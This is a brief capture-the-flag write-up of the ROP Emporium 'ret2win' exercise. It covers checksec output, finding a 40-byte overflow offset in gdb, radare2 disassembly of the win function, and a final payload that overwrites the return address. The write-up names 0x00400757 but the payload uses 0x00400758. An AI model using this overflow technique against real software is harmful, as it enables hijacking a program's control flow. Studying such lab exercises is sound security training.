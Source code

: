 #  RopEmporium : ret2win

## TLDR


Call a function 
- Get fct addr 
- bufferoffset+addr 


## checksec 

```bash
$ checksec  ret2win
[*] '/home/yop/yolo/YoloToolbox/machines/ropemporium/01_ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX => rop 


## Buffer size 

```
gdb ret2win 
pattern_create 200 pattern
r < pattern
x/16xg $sp
pattern offset AA0AAFAAb
```
=> 40 bytes 


## Addr fct 

```
r2 ret2win 
aaaa
afl
pdf @ sym.ret2win

27: sym.ret2win ();
│           0x00400756      55             push rbp
│           0x00400757      4889e5         mov rbp, rsp
│           0x0040075a      bf26094000     mov edi, str.Well_done__Heres_your_flag: ; 0x400926 ; "Well done! Here's your flag:" ; const char *s
│           0x0040075f      e8ecfdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400764      bf43094000     mov edi, str._bin_cat_flag.txt ; 0x400943 ; "/bin/cat flag.txt" ; const char *string
│           0x00400769      e8f2fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0040076e      90             nop
│           0x0040076f      5d             pop rbp
└           0x00400770      c3             ret
```

On peut taper en 0x00400756 (entrée fct), 0x00400757 (entrée fct en évitant le push rpb) ou direct en 0x00400764 (call system(cat flag.txt)

## Payload 

payload = b'A' * 40
payload += p64(0x00400758)